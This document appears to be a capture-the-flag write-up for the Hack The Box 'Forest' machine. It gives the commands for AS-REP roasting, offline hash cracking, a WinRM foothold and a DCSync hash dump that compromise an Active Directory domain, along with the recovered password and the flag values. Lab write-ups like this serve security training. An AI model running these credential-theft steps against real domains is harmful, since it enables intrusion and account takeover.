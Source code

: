 # HTB: Forest

## Engagement Overview
**Target:** Forest
**Box IP:** 10.10.10.161
**Local IP:** 10.10.14.2
**Date:** 2025-07-15

---

### Objectives
- Enumerate Active Directory/Exchange environment and identify weak Kerberos/LDAP configurations.  
- Obtain an AS-REP roastable TGT, crack offline to recover service account credentials.  
- Use service account to escalate (Exchange abuse → DCSync) and obtain Domain Administrator.  
- Capture `user.txt` and domain `root.txt`.

---

## Service Enumeration

```bash
nmap -p- -sC -sV -oA forest-scan 10.10.10.161
```

**Open ports (condensed):**
- 53/tcp (DNS), 88/tcp (Kerberos), 135/tcp (MS RPC), 139/tcp (NetBIOS), 389/tcp (LDAP), 445/tcp (SMB), 464/tcp (kpasswd), 593/tcp (RPC/HTTP), 636/tcp (LDAPS), 3268/tcp (GC LDAP), 3269/tcp (GC LDAPS)

**Domain info discovered:**
- Domain: `htb.local`  
- Hostname/FQDN: `FOREST.htb.local`  
- OS: Windows Server 2016 Standard

Notes: anonymous LDAP binds allowed; message signing required on SMB; Kerberos pre-auth disabled for target service account (AS-REP roastable).

---

## Initial Access

### AS-REP Roasting (Kerberos pre-auth disabled)
```bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
# output: AS-REP roastable hash for svc-alfresco
```

### Crack hash offline
```bash
hashcat -m 18200 -a 0 hash.txt wordlist.txt
# recovered: svc-alfresco:s3rvice
```

### Authenticate & foothold
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
# authenticated as svc-alfresco
```

---

## Privilege Escalation

### Exchange/AD abuse → DCSync
- `svc-alfresco` is member of **Account Operators** and has permissions to modify Exchange groups (WriteDACL-like permissions discovered).  
- Abused Exchange permissions to add service account to privileged groups and escalate permissions.  
- Performed DCSync using `impacket-secretsdump` to extract NTLM hashes including Administrator.

```bash
secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
# dumped hashes including Administrator NTLM
```

**Result:** Domain Administrator compromise achieved; domain credentials and hashes extracted.

---

## House Cleaning / Post-Exploitation

- No persistent backdoors created; tooling executed in-memory when possible.  
- Removed any temporary artifacts created during engagement.

**Flags captured:**  
- `user.txt`: `58fc66dc0f2af05eb1a1751186720d85`  
- `root.txt` (domain/root): `c0a4c2b3bd3faf59b20d049d108d7613`

---

## Tools Utilized
- nmap, ldapsearch  
- impacket (GetNPUsers, secretsdump)  
- hashcat  
- evil-winrm  
- ropnop/windapsearch (auxiliary AD tooling)  

---

## Key Takeaways
- Check for Kerberos pre-auth disabled accounts early (AS-REP roasting).  
- Exchange permissions are powerful: misconfigured Exchange delegation can lead to DCSync and full domain compromise.  
- AD enumeration (LDAP/GC) and group mapping are essential on Windows domain boxes.  
